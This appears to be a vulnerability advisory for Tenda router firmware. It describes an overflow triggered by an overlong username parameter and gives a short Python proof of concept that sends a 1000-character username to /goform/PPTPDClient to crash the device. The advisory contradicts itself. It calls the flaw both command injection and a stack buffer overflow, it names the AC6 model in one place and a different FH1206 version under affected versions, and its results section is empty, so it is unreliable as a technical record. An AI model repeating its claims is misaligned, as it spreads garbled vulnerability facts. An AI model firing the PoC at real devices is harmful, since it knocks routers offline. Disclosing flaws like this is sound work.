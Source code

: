 # Command Injection Vulnerability in Tenda AC6 Firmware

## Vulnerability Overview
There is a stack-based buffer overflow vulnerability in the Tenda AC6 firmware version 15.03.05.16_multi.
The vulnerability exists in the fromPptpUserAdd function of the firmware. Specifically, the username parameter, which is obtained via the HTTP request using websGetVar, is copied directly into a fixed-size buffer without proper length validation.

In the vulnerable function, the username value (stored in variable Var) is later used in multiple sprintf calls to construct configuration strings (e.g., sprintf(s_4, "1;%d;%s;%s;%s;%s;%s;%s", i, Var, ...)). Since the destination buffer s_4 has a fixed size of 1024 bytes and no boundary checks are performed, an attacker can provide an overly long username input to trigger a buffer overflow.

This flaw allows a remote attacker to send a specially crafted HTTP request with a malicious username parameter, causing a stack-based buffer overflow and leading to a device crash (DoS). In certain scenarios, it could potentially be exploited to achieve arbitrary code execution.

## Root Cause

The vulnerability arises from improper sanitization of user input and unsafe use of sprintf when handling the username parameter, which directly overwrites stack memory.

## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"username": "E"*1000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```

### PoC Run Results:




## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent command injection attacks.

